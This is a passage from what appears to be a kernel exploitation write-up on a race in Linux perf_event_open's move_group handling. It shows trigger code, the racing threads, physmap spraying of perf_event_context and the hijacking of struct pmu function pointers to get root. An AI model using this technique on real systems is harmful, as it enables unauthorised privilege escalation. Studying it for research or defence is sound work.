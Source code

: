     You will get a `group_fd` from above `perf_event_open()` systemc call.
    
    The variable (group_fd) will be used by Thread_2 and Thread_3.

     ```
     struct perf_event_attr attr = { 0 };
     attr.type = 1; //PERF_TYPE_SOFTWARE;
     attr.config = 3LL;  //PERF_COUNT_HW_CACHE_MISSES;
     attr.size = 96;//sizeof attr;
     pid = syscall(178);
     group_fd = perf_event_open(&attr, pid, 0xffffffffLL, -1LL, 2LL);
     ```
     gctx->refconunt = 1, `find_get_context() -> alloc_perf_context() -> __perf_event_init_context(struct perf_event_context *ctx) -> atomic_set(&ctx->refcount, 1);`
     
* **Thread_2 and Thread_3** for free:
 
  Invoking `perf_event_open(&attr, 0, 0, group_fd, 0)` with `PERF_TYPE_HARDWARE` in thread_2 and thread_3, we will set up move_group to one and racing.
#### Open Pandora's box

The kernel does not crash directly after trigger this bug.
Therefore, we can do physmap-based spraying on `struct perf_event_context`.[5]
After above threads go to sleep via `futex()`, the kernel scheduler will execute 
`perf_event_context_sched_in()` that leads to kernel crash.

```c=
// Code snippet 3
static void perf_event_context_sched_in(struct perf_event_context *ctx,
					struct task_struct *task)
{
	struct perf_cpu_context *cpuctx;

	cpuctx = __get_cpu_context(ctx);
	if (cpuctx->task_ctx == ctx)
		return;

	perf_ctx_lock(cpuctx, ctx);
	perf_pmu_disable(ctx->pmu); 
	// be hijacked, then go to kernel_sock_ioctl(), set addr_limit = -1.

	if (!list_empty(&ctx->pinned_groups))
		cpu_ctx_sched_out(cpuctx, EVENT_FLEXIBLE);
	perf_event_sched_in(cpuctx, ctx, task);
	perf_pmu_enable(ctx->pmu);
	// be hijacked, launch ret intruction directly.
	perf_ctx_unlock(cpuctx, ctx);
}
```

Our goal is to get the root not just crash, so we need to make a fake `struct pmu` in
re-filled `struct perf_event_context`. By the way, the `struct pmu` contains some functions pointer we can hijack. 
Look out the `struct pmu`, do you feel excited?
```
struct pmu {
    ...

	int * __percpu			pmu_disable_count;
	struct perf_cpu_context * __percpu pmu_cpu_context;
	int				task_ctx_nr;
	int				hrtimer_interval_ms;

	/*
	 * Fully disable/enable this PMU, can be used to protect from the PMI
	 * as well as for lazy/batch writing of the MSRs.
	 */
```